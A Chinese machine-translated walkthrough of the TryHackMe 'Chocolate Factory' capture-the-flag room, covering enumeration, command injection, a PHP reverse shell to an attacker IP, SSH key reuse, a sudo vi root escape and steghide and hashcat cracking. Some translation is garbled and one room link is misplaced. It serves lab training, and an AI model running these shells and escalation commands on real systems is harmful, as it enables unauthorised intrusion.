# 巧克力工厂 Tryhackme 报道

> 原文：<https://infosecwriteups.com/chocolate-factory-tryhackme-writeup-897e7e8f255f?source=collection_archive---------1----------------------->

## **这是 Tryhackme room“巧克力工厂”的特写**



[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

**房间链接:**[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)
**注:此房免费**

# 列举



房间链接:[https://tryhackme.com/room/malstrings](https://tryhackme.com/room/malstrings)
注:此房间免费

那么我们这里有什么？

*   端口 21:允许匿名登录的 FTP 和文件“gum_room.jpg ”,因为 nmap 正在为我们执行匿名登录
*   端口 22: SSH
*   端口 80:Apache web 服务器
*   端口 100、106、109、110、111、113、119、125(全部带有相同的服务标志)

在我找到这个盒子后，我意识到这是两条稍微不同的路线。

*   路径 1，
*   路径 2，

# 路径 1



我尝试 sql 注入来绕过登录，但运气不好

## Gobuster

```
gobuster dir -u 10.10.208.225 -w directory-list-2.3-medium.txt -t 50 -x .php,.txt,.html
```



当《捉鬼敢死队》找到 home.php 时，我看了看它。



我们在这个页面上有命令注入

让我们试着得到反向外壳

```
php -r '$sock=fsockopen("10.2.12.26",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

启动 netcat 监听器

```
nc -lvp 4444
```



嘣，我们进入了 www-data！

**升级 TTY 外壳**

```
script -qc /bin/bash /dev/null
```

在 home.php，我们看到了一个非常有趣的 key_rev_key 文件。这是一个可执行文件，所以让我们这样做。

好了，我们应该仔细看看这个命令`strings key_rev_key`



我们发现了查理密码

厉害！我们拿到了钥匙。提交它并直接转到主目录。



好的，我们不能读取用户标志，但是我们有一个私有和公共的 SSH 密钥。通过复制`cat teleport`的输出，我们将它保存在攻击者的机器上，并直接与 ssh 重新连接



我们有用户标志

# 权限提升



我们可以用 root 权限执行 vi，您会问自己这有什么帮助？只需在 vi 中创建新文件并启动二进制文件。

sudo vi 测试并输入`:!bash`，然后回车。或者使用 GTFOBins 的一个衬垫

```
sudo vi -c ':!/bin/sh' /dev/null
```



关于滥用 sudo 权限的更多信息，请查看 [**GTFOBins**](https://gtfobins.github.io/)

去拿根旗！但是什么…什么？文件夹中有一个 **root.py** ,其中包含以下代码

```
from cryptography.fernetimport Fernetimport pyfigletkey=input("Enter the key:  ")f=Fernet(key)encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'dcrypt_mess=f.decrypt(encrypted_mess)mess=dcrypt_mess.decode()display1=pyfiglet.figlet_format("You Are Now The Owner Of ")display2=pyfiglet.figlet_format("Chocolate Factory ")print(display1)print(display2)print(mess)
```

通过使用从二进制文件“key_rev_key”中获得的密钥，我们可以运行 python 脚本，输入我们找到的所需密钥



# 路径 2

```
nmap -sC 10.10.208.225
```


我们发现了匿名 ftp



`steghide`！用空白密码试试我们的运气。



是啊！jpg 中嵌入了一个名为 b64.txt 的文件。使用 steghide，我们也可以提取文件。



不出所料，是 base64 编码的文本

快速解码将为我们带来用户“charlie”的详细信息

```
cat b64.txt | base64 -d
```



我在我的机器上复制了 hash，并在上面运行 hashcat。



你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

访问我的其他演练:-

感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
给有类似兴趣的人帮助！+随时欢迎反馈！